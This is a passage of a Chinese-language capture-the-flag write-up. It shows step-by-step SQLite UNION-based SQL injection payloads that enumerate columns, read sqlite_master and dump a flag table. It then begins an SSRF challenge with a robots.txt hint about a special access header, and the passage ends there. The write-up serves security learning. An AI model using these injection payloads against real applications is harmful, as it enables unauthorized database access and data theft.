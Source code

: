 ```plaintext
1 order by 4
1 order by 5
```

当超出了它返回数据的列数时，它会返回类似如下报错。

```plaintext
[ Error occured. --> 1st ORDER BY term out of range - should be between 1 and 4 ]
```

知道它返回的列数，我们就可以开始联合注入了。

```plaintext
0 union select 1,2,3,4
```

首先，我们可以查版本。

```plaintext
0 union select 1,2,3,sqlite_version()
```

接着，我们可以查表名和字段。

```plaintext
0 union select 1,2,3,sql from sqlite_master
0 union select 1,2,3,sql from sqlite_master where type='table'
0 union select 1,2,3,sql from sqlite_master where type='table' and name='flag'
```

![](../assets/c790f2b91901110f18804747ce1e9c64.png)

多条记录，我们可以用 `group_concat` 聚合或使用 `limit`。

```plaintext
0 union select 1,2,3,group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
0 union select 1,2,3,tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 2 offset 1
```

![](../assets/eb05475a0b8a092c81c45297df6bc1be.png)

最后，我们来查数据，也可以用 `group_concat` 来连接查询结果。

```plaintext
0 union select 1,2,id,flag from flag
0 union select 1,2,3,group_concat(flag) from flag
```

![](../assets/944531111af703c329da692749b3ca03.png)

### Web Forge

访问题目 `https://wormhole.sunshinectf.games/fetch`，返回结果 `403 Forbidden: missing or incorrect SSRF access header` 我们猜测这里需要去爆破请求头，访问 `/robots.txt` 发现以下提示。

```plaintext
User-agent: *
Disallow: /admin
Disallow: /fetch

# internal SSRF testing tool requires special auth header to be set to 'true'
```
